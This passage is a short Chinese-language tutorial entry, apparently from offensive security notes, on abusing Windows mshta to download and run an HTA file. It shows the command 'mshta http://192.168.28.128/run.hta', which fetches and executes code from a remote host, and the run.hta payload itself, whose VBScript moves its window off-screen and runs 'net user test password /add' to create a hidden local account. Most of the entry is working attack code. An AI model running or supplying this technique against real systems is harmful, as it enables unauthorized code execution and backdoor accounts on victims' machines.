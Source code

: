 
# 11、mshta

mshta用于执行.hta文件，而hta是HTML Applocation 的缩写，也就是HTML应用程序。而hta中也支持VBS。所以我们可以利用hta来下载文件。

```
mshta http://192.168.28.128/run.hta
```

run.hta内容如下：

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user test password /add" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
```
![20200413-11.png](../../_img\05-应急响应/1656916453280-35c47293-1098-430c-a22f-e485ea53175e.png)

